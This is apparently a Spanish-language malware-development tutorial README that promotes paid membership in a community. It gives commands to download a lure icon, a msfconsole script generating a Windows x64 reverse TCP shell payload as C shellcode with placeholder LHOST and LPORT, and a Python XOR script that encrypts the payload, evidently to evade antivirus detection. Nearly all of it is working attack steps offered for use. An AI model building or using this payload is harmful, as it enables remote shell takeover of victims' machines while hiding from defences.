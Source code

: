     Apoyate con el video de la ponencia en su [Primera Parte](https://t.me/Ivam3_Bot) al adquirir tu [membresia de la comunidad](https://www.youtube.com/ivam3bycinderella/join)

- Descarga de imagen .png
```bash
curl https://www.iconfinder.com/icons/7150904/download/ico/4096 -o venv/pornhub.png
```

- Shellcode Payload:
```bash
echo """use payload/windows/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 0000
generate -f c -o venv/shellcode.bin
""" > venv/msfshellcode.rc 

msfconsole -q -r venv/msfshellcode.rc
```
	Sustituye 0.0.0.0 por tu Protocolo de Internet Local (IPL) y el '0000' por el puerto de tu eleccion.

- Activa el entorno virtual de Python
```bash
source venv/bin/activate
```

- Script PoC-maldev/venv/xor.py
```python
import sys

def xor(inputData, encKey):

	encKey = str(encKey)
	l = len(encKey)
	outStr = b""

	for i in range(len(inputData)):
		cde = inputData[i]
		ck = encKey[i % len(encKey)]
		outStr += chr(cde ^ ord(ck)).encode('latin-1')

	return outStr

if __name__ == "__main__":

	ENCRYPT_KEY = "wubbalubbadubdub"
	try:
		plainText = open(sys.argv[1], "rb").read()
		cipherText = xor(plainText, ENCRYPT_KEY)
		open("encrypted.bin", "wb").write(cipherText)
	except:
		#print f"Usage: python3 {sys.argv[0]} <payload file>"
		sys.exit(1)
```
